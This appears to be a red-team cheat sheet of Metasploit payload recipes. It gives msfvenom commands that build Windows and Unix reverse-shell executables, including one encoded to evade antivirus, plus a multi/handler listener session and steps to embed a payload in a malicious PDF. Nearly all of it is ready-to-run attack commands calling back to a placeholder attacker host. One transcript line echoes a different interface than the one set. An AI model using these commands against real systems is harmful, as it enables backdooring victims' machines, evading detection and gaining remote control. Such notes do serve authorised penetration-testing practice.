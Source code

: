### [Payload Resources]
https://netsec.ws/?p=331  
https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/  
https://github.com/nccgroup/Winpayloads  
https://github.com/swisskyrepo/PayloadsAllTheThings  
https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom  
https://www.offensive-security.com/metasploit-unleashed/fun-incognito/  
https://www.offensive-security.com/metasploit-unleashed/msfvenom/  

# [Generating Payloads on Windows using Metasploit]

### [Regular Reverse TCP]
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -f exe > shell.exe
[Poly Morphic Reverse TCP]
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOURIP LPORT=YOURPORT -e x64/shikata_ga_nai -i 100 -f exe > file.exe

Creating a reverse tcp netcat comamnd
msfvenom -p cmd/unix/reverse_netcat lhost=<IP> lport=<port> R

msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe
```

### [Unique Reverse TCP]
```
msfvenom -p windows/powershell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > pshell.exe
```

### [Handler]
msf5 > use exploit/multi/handler

msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp

PAYLOAD => windows/x64/meterpreter/reverse_tcp

msf5 exploit(multi/handler) > set LHOST eth0

LHOST => tun0

msf5 exploit(multi/handler) > set LPORT 32119

LPORT => 32119

msf5 exploit(multi/handler) > run

### [PDF]
```
Creating malicious PDF
use exploit/windows/fileformat/adobe_pdf_embedded_exe

set payload windows/meterpreter/reverse_tcp
set INFILENAME x.pdf
set FILENAME x.pdf
exploit
```
### [xls Macros]
https://www.manitonetworks.com/security/2016/8/15/macro-payloads-in-excel-with-metasploit  

### [xls XXE]
https://www.youtube.com/watch?v=LZUlw8hHp44  

